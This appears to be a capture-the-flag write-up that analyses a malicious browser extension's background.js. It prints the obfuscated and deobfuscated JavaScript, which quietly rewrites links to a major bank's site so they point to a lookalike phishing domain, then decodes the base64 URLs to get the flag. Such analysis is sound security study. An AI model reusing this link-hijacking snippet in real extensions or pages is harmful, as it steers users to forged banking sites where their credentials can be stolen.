 # ICS CTF 2024 - Extend Your Stay 2

**Title:** Extend Your Stay - 2
**Description:** Along with protecting internet users from rodents, this extension (same extension as `Extend Your Stay - 1` seems to hijack links to a particular site and redirect them to a forgery with a similar-looking URL controlled by the developers. What is the URL of the site that links get redirected to?  
  
_Flag format: URL. Example: **[http://www.example.com](http://www.example.com/)**_

**File:** [no_more_rodents.crx](https://github.com/xtasy94/CTFW/blob/main/ICS%20CTF%202024/Extend%20Your%20Stay/Files_1_and_2/no_more_rodents.crx)
## Solution:

Looking at the [background.js](https://github.com/xtasy94/CTFW/blob/main/ICS%20CTF%202024/Extend%20Your%20Stay/Files_1_and_2/background.js) file, we see this obfuscated javascript code:
```javascript
    var _0x4808c5=_0x4d65;function _0x4d65(_0x1ac046,_0xdb813f){var _0x42de99=_0x42de();return _0x4d65=function(_0x4d65e4,_0x2bb8e7){_0x4d65e4=_0x4d65e4-0xb3;var _0x3d9dce=_0x42de99[_0x4d65e4];return _0x3d9dce;},_0x4d65(_0x1ac046,_0xdb813f);}(function(_0xad6f15,_0x121327){var _0xc7839f=_0x4d65,_0x5a0ac3=_0xad6f15();while(!![]){try{var _0x8cad1a=-parseInt(_0xc7839f(0xbc))/0x1*(parseInt(_0xc7839f(0xba))/0x2)+-parseInt(_0xc7839f(0xb6))/0x3*(parseInt(_0xc7839f(0xb9))/0x4)+-parseInt(_0xc7839f(0xb7))/0x5+parseInt(_0xc7839f(0xb5))/0x6+parseInt(_0xc7839f(0xbb))/0x7*(parseInt(_0xc7839f(0xb8))/0x8)+parseInt(_0xc7839f(0xb4))/0x9*(-parseInt(_0xc7839f(0xbe))/0xa)+parseInt(_0xc7839f(0xc0))/0xb*(parseInt(_0xc7839f(0xb3))/0xc);if(_0x8cad1a===_0x121327)break;else _0x5a0ac3['push'](_0x5a0ac3['shift']());}catch(_0x1ba48e){_0x5a0ac3['push'](_0x5a0ac3['shift']());}}}(_0x42de,0x583a6));function _0x42de(){var _0x2b65ad=['href','8856cNMCoO','32787TKstXc','540444COUjiw','1317BdQCgn','2249910WgEroQ','7640EMFxQu','3124SVgnKu','2XPDNHL','3073UIRrAf','628931indBOZ','length','10AaewyR','includes','19041ygvqPQ'];_0x42de=function(){return _0x2b65ad;};return _0x42de();}var rodents=document['getElementsByTagName']('a');for(var i=0x0;i<rodents[_0x4808c5(0xbd)];i++){rodents[i][_0x4808c5(0xc1)][_0x4808c5(0xbf)](atob('aHR0cHM6Ly93d3cud2VsbHNmYXJnby5jb20v'))&&(rodents[i][_0x4808c5(0xc1)]=atob('aHR0cHM6Ly93d3cuZmVsbHN3YXJnby5jb20v'));}
```

I used an online deobfuscator called [deobfuscate.io](https://obf-io.deobfuscate.io/) to deobfuscate it, and this is the output we get:

```javascript
var _0x4808c5 = _0x4d65;
function _0x4d65(_0x1ac046, _0xdb813f) {
  var _0x42de99 = _0x42de();
  _0x4d65 = function (_0x4d65e4, _0x2bb8e7) {
    _0x4d65e4 = _0x4d65e4 - 0xb3;
    var _0x3d9dce = _0x42de99[_0x4d65e4];
    return _0x3d9dce;
  };
  return _0x4d65(_0x1ac046, _0xdb813f);
}
(function (_0xad6f15, _0x121327) {
  var _0xc7839f = _0x4d65;
  var _0x5a0ac3 = _0xad6f15();
  while (true) {
    try {
      var _0x8cad1a = -parseInt(_0xc7839f(0xbc)) / 0x1 * (parseInt(_0xc7839f(0xba)) / 0x2) + -parseInt(_0xc7839f(0xb6)) / 0x3 * (parseInt(_0xc7839f(0xb9)) / 0x4) + -parseInt(_0xc7839f(0xb7)) / 0x5 + parseInt(_0xc7839f(0xb5)) / 0x6 + parseInt(_0xc7839f(0xbb)) / 0x7 * (parseInt(_0xc7839f(0xb8)) / 0x8) + parseInt(_0xc7839f(0xb4)) / 0x9 * (-parseInt(_0xc7839f(0xbe)) / 0xa) + parseInt(_0xc7839f(0xc0)) / 0xb * (parseInt(_0xc7839f(0xb3)) / 0xc);
      if (_0x8cad1a === _0x121327) {
        break;
      } else {
        _0x5a0ac3.push(_0x5a0ac3.shift());
      }
    } catch (_0x1ba48e) {
      _0x5a0ac3.push(_0x5a0ac3.shift());
    }
  }
})(_0x42de, 0x583a6);
function _0x42de() {
  var _0x2b65ad = ['href', '8856cNMCoO', '32787TKstXc', '540444COUjiw', '1317BdQCgn', '2249910WgEroQ', '7640EMFxQu', '3124SVgnKu', '2XPDNHL', '3073UIRrAf', '628931indBOZ', 'length', '10AaewyR', 'includes', '19041ygvqPQ'];
  _0x42de = function () {
    return _0x2b65ad;
  };
  return _0x42de();
}
var rodents = document.getElementsByTagName('a');
for (var i = 0x0; i < rodents[_0x4808c5(0xbd)]; i++) {
  if (rodents[i][_0x4808c5(0xc1)][_0x4808c5(0xbf)](atob('aHR0cHM6Ly93d3cud2VsbHNmYXJnby5jb20v'))) {
    rodents[i][_0x4808c5(0xc1)] = atob('aHR0cHM6Ly93d3cuZmVsbHN3YXJnby5jb20v');
  }
}
```

Straight up we see two base64 strings: `aHR0cHM6Ly93d3cud2VsbHNmYXJnby5jb20v` and `aHR0cHM6Ly93d3cuZmVsbHN3YXJnby5jb20v`, 

In plain terms, this code is checking if a property of each `rodents` array item contains the URL `"aHR0cHM6Ly93d3cud2VsbHNmYXJnby5jb20v"`. If it does, it replaces that URL with `"aHR0cHM6Ly93d3cuZmVsbHN3YXJnby5jb20v"`, decoding these, we get:

```bash
$ echo "aHR0cHM6Ly93d3cud2VsbHNmYXJnby5jb20v" | base64 -d
https://www.wellsfargo.com/
```
and
```bash
$ echo "aHR0cHM6Ly93d3cuZmVsbHN3YXJnby5jb20v" | base64 -d
https://www.fellswargo.com/
```

And that's our flag: `https://www.fellswargo.com`


